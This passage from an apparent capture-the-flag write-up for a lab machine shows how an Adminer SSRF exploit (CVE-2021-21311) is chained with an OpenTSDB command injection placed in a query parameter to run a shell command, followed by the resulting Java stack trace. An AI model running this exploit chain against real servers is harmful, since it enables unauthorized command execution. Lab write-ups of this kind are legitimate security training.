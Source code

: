 ### Foothoold (Adminer + OpenTSDB)

So, we should be able to run arbitrary commands by chaining this exploit together with our Adminer exploit. Let's try simply running the poc with `python3 CVE-2021-21311.py --host 10.10.14.169 --url http://db.admirer-gallery.htb --redirect "http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"`.

This produces the following (we replaced the `\n` with newlines.):

```
{"err":"java.lang.RuntimeException: Unexpected exception
\tat net.opentsdb.core.TSQuery.buildQueries(TSQuery.java:224) ~[tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.GraphHandler.doGraph(GraphHandler.java:172) ~[tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.GraphHandler.execute(GraphHandler.java:123) ~[tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.RpcHandler.handleHttpQuery(RpcHandler.java:282) [tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.RpcHandler.messageReceived(RpcHandler.java:133) [tsdb-2.4.0.jar:14ab3ef]
\tat org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.handler.timeout.IdleStateAwareChannelUpstreamHandler.handleUpstream(IdleStateAwareChannelUpstreamHandler.java:36) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline$DefaultChannelHandlerContext.sendUpstream(DefaultChannelPipeline.java:791) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.handler.timeout.IdleStateHandler.messageReceived(IdleStateHandler.java:294) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline$DefaultChannelHandlerContext.sendUpstream(DefaultChannelPipeline.java:791) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.handler.codec.http.HttpContentEncoder.messageReceived(HttpContentEncoder.java:82) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.SimpleChannelHandler.handleUpstream(SimpleChannelHandler.java:88) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline$DefaultChannelHandlerContext.sendUpstream(DefaultChannelPipeline.java:791) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.handler.codec.http.HttpContentDecoder.messageReceived(HttpContentDecoder.java:108) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline$DefaultChannelHandlerContext.sendUpstream(DefaultChannelPipeline.java:791) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.handler.codec.http.HttpChunkAggregator.messageReceived(HttpChunkAggregator.java:145) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.DefaultChannelPipeline$DefaultChannelHandlerContext.sendUpstream(DefaultChannelPipeline.java:791) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.channel.Channels.fireMessageReceived(Channels.java:296) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.handler.codec.frame.FrameDecoder.unfoldAndFireMessageReceived(FrameDecoder.java:459) [netty-3.10.6.Final.jar:na]
\tat org.jboss.netty.handler.codec.replay.ReplayingDecoder.callDecode(ReplayingDecoder.java:536) [netty-3.10.6.Final.jar:na]
```